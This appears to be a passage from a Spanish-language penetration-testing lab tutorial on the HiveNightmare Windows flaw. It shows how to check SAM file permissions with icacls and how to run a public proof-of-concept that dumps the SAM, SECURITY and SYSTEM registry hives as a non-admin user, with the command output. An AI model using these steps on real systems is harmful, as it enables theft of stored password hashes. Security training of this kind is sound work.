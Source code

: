 ### Checking Permissions on the SAM File

Podemos verificar esta vulnerabilidad utilizando `icacls` para verificar los permisos en el archivo **SAM**. En nuestro caso, tenemos una versión vulnerable ya que el archivo es legible por el grupo `BUILTIN\Users`.

```r
C:\htb> icacls c:\Windows\System32\config\SAM

C:\Windows\System32\config\SAM BUILTIN\Administrators:(I)(F)
                               NT AUTHORITY\SYSTEM:(I)(F)
                               BUILTIN\Users:(I)(RX)
                               APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                               APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

La explotación exitosa también requiere la presencia de una o más copias de sombra. La mayoría de los sistemas **Windows 10** tendrán **System Protection** habilitado por defecto, lo que creará copias de seguridad periódicas, incluyendo la copia de sombra necesaria para aprovechar esta falla.

### Performing Attack and Parsing Password Hashes

Este [PoC](https://github.com/GossiTheDog/HiveNightmare) puede ser utilizado para realizar el ataque, creando copias de las colmenas del registro mencionadas anteriormente:

```r
PS C:\Users\htb-student\Desktop> .\HiveNightmare.exe

HiveNightmare v0.6 - dump registry hives as non-admin users

Specify maximum number of shadows to inspect with parameter if wanted, default is 15.

Running...

Newer file found: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM

Success: SAM hive from 2021-08-07 written out to current working directory as SAM-2021-08-07

Newer file found: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY

Success: SECURITY hive from 2021-08-07 written out to current working directory as SECURITY-2021-08-07

Newer file found: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM

Success: SYSTEM hive from 2021-08-07 written out to current working directory as SYSTEM-2021-08-07


Assuming no errors above, you should be able to find hive dump files in current working directory.
```
